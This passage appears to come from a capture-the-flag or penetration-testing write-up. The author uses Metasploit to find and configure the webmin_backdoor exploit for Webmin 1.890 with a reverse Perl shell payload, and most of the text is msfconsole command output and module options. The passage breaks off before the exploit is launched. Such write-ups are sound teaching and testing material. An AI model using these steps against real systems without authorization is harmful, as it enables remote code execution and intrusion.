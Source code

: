 That is very interesting. Metasploit can help me get remote code execution. I start up msfconsole:

```bash
$ msfconsole
msf6 > search webmin 1.890

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/linux/http/webmin_backdoor       2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   1    \_ target: Automatic (Unix In-Memory)  .                .          .      .
   2    \_ target: Automatic (Linux Dropper)   .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/webmin_backdoor
After interacting with a module you can manually set a TARGET with set TARGET 'Automatic (Linux Dropper)'
```

I searched for the webmin 1.890 and found a few modules that will work. For the sake of simplicity I chose option 0.

```bash
msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) > options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```